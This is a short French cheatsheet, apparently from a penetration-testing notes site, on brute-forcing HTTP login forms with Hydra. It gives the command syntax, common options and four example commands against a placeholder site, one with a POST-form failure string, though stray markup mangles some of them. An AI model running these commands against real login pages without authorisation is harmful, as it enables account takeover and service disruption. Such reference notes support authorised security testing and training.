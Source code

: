 ```yaml
---
description: HTTP Login avec Hydra - Cheatsheet
---
```


# HTTP login avec Hydra

Hydra est un outil de brute-force en ligne de commande permettant de tester des combinaisons de noms d'utilisateur et de mots de passe pour se connecter à des services HTTP.

_<mark style="color:yellow;">Utilisation de base</mark>_ <mark style="color:yellow;"></mark><mark style="color:yellow;">:</mark>&#x20;

`hydra -l NOM_UTILISATEUR -P CHEMIN_WORDLIST URL -s PORT -t THREADS http-get|http-post-form "/URL_LOGIN:PARAMETRES_POST:MESSAGE_ERREUR"`

_<mark style="color:yellow;">Options courantes</mark>_ <mark style="color:yellow;"></mark><mark style="color:yellow;">:</mark>&#x20;

* \-l : Nom d'utilisateur à tester (ou spécifiez une liste de noms d'utilisateurs séparés par des virgules).&#x20;
* \-P : Chemin de la wordlist contenant les mots de passe à tester.&#x20;
* \-s : Port du service cible (par défaut : 80 pour HTTP, 443 pour HTTPS).
* &#x20;\-t : Nombre de threads à utiliser pour accélérer le processus de bruteforce.&#x20;
* http-get : Utilisation de la méthode HTTP GET pour se connecter (par défaut).&#x20;
* http-post-form : Utilisation de la méthode HTTP POST pour se connecter via un formulaire.

_<mark style="color:yellow;">Exemples d'utilisation</mark>_ <mark style="color:yellow;"></mark><mark style="color:yellow;">:</mark>

1. Brute-force avec un nom d'utilisateur et une wordlist de mots de passe : `hydra -l admin -P /chemin/vers/wordlist.txt [http://example.com/login](http://example.com/login)`
2. Brute-force avec une liste de noms d'utilisateurs et un mot de passe spécifique : `hydra -L users.txt -p Password123 [http://example.com/login](http://example.com/login)`
3. Brute-force avec un formulaire HTTP POST : \`hydra -l admin -P /chemin/vers/wordlist.txt http-post-form "/login.php:user=^USER^\&pass=^PASS^:Invalid Login" -t 10
4. Brute-force en utilisant un port personnalisé (p.ex., 8080) : hydra -l admin -P /chemin/vers/wordlist.txt [http://example.com:8080/login](http://example.com:8080/login)\`
